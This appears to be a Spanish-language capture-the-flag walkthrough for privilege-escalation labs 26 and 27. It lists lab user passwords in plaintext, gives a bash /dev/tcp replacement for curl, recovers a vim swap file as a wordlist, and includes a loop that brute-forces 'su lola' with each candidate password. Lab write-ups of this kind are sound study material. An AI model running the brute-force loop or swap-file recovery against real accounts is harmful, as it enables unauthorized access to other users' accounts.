 watch cat /free/\*

El comando watch en sistemas Unix/Linux se utiliza para ejecutar un comando repetidamente a intervalos regulares, y mostrar los resultados en la terminal. Por defecto, watch ejecuta el comando especificado cada 2 segundos y actualiza la pantalla con la salida del comando. Es especialmente útil para monitorear el cambio en la salida de un comando en tiempo real.

> [!tip] user
> mxq9O3MSxxX9Q3S

**Laboratorio 26**

The password of the user ariel is online! (HTTP)

curl <http://localhost>

Definir una function curl sino se tiene el programa

```sh
function __curl() {
  read -r proto server path <<< "$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80
  exec 3<>/dev/tcp/${HOST}/${PORT}
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
    [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```

```sh
__curl http://localho
```

>[!tip] ariel
>33EtHoz9a0w2Yqo


**Laboratorio 27**

Seems that ariel dont save the password for lola, but there is a temporal file.

vim -r .goas.swp

:w /tmp/dict.txt

:q!

1era opción

```sh
vim -r .goas.swp
```
Dentro de `vim`, guarda el contenido usando: `:w /tmp/dict.txt`, y luego sal de `vim` usando `:q!`
Luego ejecuta en el terminal:
```sh
while IFS= read -r line; do echo $line | timeout 2 su lola 2>/dev/null; if [ $? -eq 0 ]; then echo $line; break; fi; done < /tmp/dict.txt
```
---
- `while IFS= read -r line; do ... done < /tmp/dict.txt`: Este es un bucle que lee cada línea del archivo `/tmp/dict.txt` y la guarda en la variable `line`.
    - `IFS=`: Evita que `read` divida la línea en palabras basándose en espacios, tabulaciones o nuevas líneas.
    - `read -r line`: Lee la línea sin interpretar las barras invertidas.